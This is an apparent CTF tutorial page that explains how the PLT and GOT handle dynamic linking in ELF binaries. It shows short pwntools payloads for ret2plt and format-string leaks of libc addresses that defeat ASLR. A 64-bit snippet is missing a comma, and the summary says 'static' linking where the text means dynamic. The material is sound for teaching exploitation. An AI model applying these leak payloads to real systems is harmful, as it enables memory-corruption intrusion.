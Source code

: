 ```yaml
---
description: Bypassing ASLR
---
```


# PLT and GOT

The PLT and GOT are sections within an ELF file that deal with a large portion of the **dynamic linking**. Dynamically linked binaries are more common than statically linked binary in CTFs. The purpose of **dynamic linking** is that binaries do not have to carry all the code necessary to run within them - this reduces their size substantially. Instead, they rely on system libraries \(especially `libc`, the C standard library\) to provide the bulk of the fucntionality.  
For example, each ELF file will not carry their own version of `puts` compiled within it - it will instead dynamically link to the `puts` of the system it is on. As well as smaller binary sizes, this also means the user can continually upgrade their libraries, instead of having to redownload all the binaries every time a new version comes out.

#### So when it's on a new system, it replaces function calls with hardcoded addresses?

Not quite.

The problem with this approach is it requires `libc` to have a constant base address, i.e. be loaded in the same area of memory every time it's run, but remember that [_**ASLR**_](https://en.wikipedia.org/wiki/Address_space_layout_randomization) _****_exists. Hence the need for _dynamic_ linking. Due to the way ASLR works, these addresses need to be resolved _every time the binary is run_. Enter the PLT and GOT.

## The PLT and GOT

The PLT \(**Procedure Linkage Table**\) and GOT \(**Global Offset Table**\) work together to perform the linking.

When you call `puts()` in C and compile it as an ELF executable, it is not _actually_ `puts()` - instead, it gets compiled as `puts@plt`. Check it out in GDB:

![](../../../.gitbook/assets/puts_plt.png)

Why does it do that?

Well, as we said, it doesn't know where `puts` actually is - so it jumps to the PLT entry of `puts` instead. From here, `puts@plt` does some very specific things:

* If there is a GOT entry for `puts`, it jumps to the address stored there.
* If there isn't a GOT entry, it will resolve it and jump there.

The GOT is a _massive_ table of addresses; these addresses are the actual locations in memory of the `libc` functions. `puts@got`, for example, will contain the address of `puts` in memory. When the PLT gets called, it reads the GOT address and redirects execution there. If the address is empty, it coordinates with the `ld.so` \(also called the **dynamic linker/loader**\) to get the function address and stores it in the GOT.

## How is this useful for binary exploitation?

Well, there are two key takeaways from the above explanation:

* Calling the PLT address of a function is equivalent to calling the function itself
* The GOT address contains addresses of functions in `libc`, and the GOT is within the binary.

The use of the first point is clear - if we have a PLT entry for a desirable `libc` function, for example `system`, we can just redirect execution to its PLT entry and it will be the equivalent of calling `system` directly; no need to jump into `libc`.

The second point is less obvious, but debatably even more important. As the GOT is part of the binary, it will always be a constant offset away from the base. Therefore, if PIE is disabled or you somehow leak the binary base, you know the exact address that contains a `libc` function's address. If you perhaps have an arbitrary read, it's trivial to leak the real address of the `libc` function and therefore bypass ASLR.

## Exploiting an Arbitrary Read

There are two main ways that I \(personally\) exploit an arbitrary read. Note that these approaches will cause not only the GOT entry to be return but _everything else until a null byte is reached_ as well, due to strings in C being null-terminated; make sure you only take the required number of bytes.

### ret2plt

A **ret2plt** is a common technique that involves calling `puts@plt` and passing the GOT entry of puts as a parameter. This causes `puts` to print out its own address in `libc`. You then set the return address to the function you are exploiting in order to call it again and enable you to

```python
# 32-bit ret2plt
payload = flat(
    b'A' * padding,
    elf.plt['puts'],
    elf.symbols['main'],
    elf.got['puts']
)

# 64-bit
payload = flat(
    b'A' * padding,
    POP_RDI,
    elf.got['puts']
    elf.plt['puts'],
    elf.symbols['main']
)
```

{% hint style="info" %}
`flat()` packs all the values you give it with `p32()` and `p64()` \(depending on context\) and concatenates them, meaning you don't have to write the packing functions out all the time
{% endhint %}

### %s format string

This has the same general theory but is useful when you have limited stack space or a ROP chain would alter the stack in such a way to complicate future payloads, for example when stack pivoting.

```python
payload = p32(elf.got['puts'])      # p64() if 64-bit
payload += b'|'
payload += b'%3$s'                  # The third parameter points at the start of the buffer


# this part is only relevant if you need to call the function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])

# Send it off...

p.recvuntil(b'|')                   # This is not required
puts_leak = u32(p.recv(4))          # 4 bytes because it's 32-bit
```

## Summary

* The PLT and GOT do the bulk of static linking
* The PLT resolves actual locations in `libc` of functions you use and stores them in the GOT
  * Next time that function is called, it jumps to the GOT and resumes execution there
* Calling `function@plt` is equivalent to calling the function itself
* An arbitrary read enables you to read the GOT and thus bypass ASLR by calculating `libc` base

